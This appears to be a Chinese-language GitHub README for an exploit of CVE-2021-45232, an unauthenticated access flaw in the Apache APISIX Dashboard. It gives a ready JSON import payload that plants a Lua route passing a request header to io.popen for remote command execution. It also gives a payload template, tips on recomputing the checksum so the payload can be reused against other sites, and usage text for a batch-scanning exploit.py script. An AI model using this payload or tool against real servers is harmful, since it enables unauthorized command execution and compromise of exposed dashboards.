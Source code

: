 参考链接： https://xz.aliyun.com/t/10738  

## 漏洞概述 ##
该漏洞的存在是由于 Manager API 中的错误。Manager API 在 gin 框架的基础上引入了 droplet 框架，所有的 API 和鉴权中间件都是基于 droplet 框架开发的。但是有些 API 直接使用了框架 gin 的接口，从而绕过身份验证。CVE编号为：CVE-2021-45232  


影响版本
```
Apache APISIX Dashboard < 2.10.1
```

修复方案
* 升级最新版本

简单来说就是俩关键的API可以未授权访问
```text
/apisix/admin/migrate/export
/apisix/admin/migrate/import
```

还有一个很关键的点就是官方允许执行lua脚本
payload：
```text
{"Counsumers":[],"Routes":[{"id":"402804434286822756","create_time":1647949944,"update_time":1647949944,"uris":["/dc2dc"],"name":"hf3e4K","methods":["GET","POST","PUT","DELETE","PATCH","HEAD","OPTIONS","CONNECT","TRACE"],"script":"local file = io.popen(ngx.req.get_headers()['cmd'],'r') \n local output = file:read('*all') \n file:close() \n ngx.say(output)","status":1}],"Services":[],"SSLs":[],"Upstreams":[],"Scripts":[],"GlobalPlugins":[],"PluginConfigs":[]};
```
创建成功后访问：`dc2dc header:cmd=<command>` #即可执行命令  

payload模板
```text
{"Counsumers":[],"Routes":[],"Services":[],"SSLs":[],"Upstreams":[],"Scripts":[],"GlobalPlugins":[],"PluginConfigs":[]}
```
可以访问/export看人家写好的配置导出，然后贴进Routes里，然后在添加script写你的内容

**payload需要重新计算checksum值**,其他站就可以用这个计算好的  

```text
usage:python exploit.py -u <url> #单个url检测
usage:python exploit.py -f <file> #批量检测
Usage: exploit.py [options]

Options:
  -h, --help  show this help message and exit
  -u URL      目标url
  -f FILE     批量检测
```
![](img/1.png)
![](img/2.png)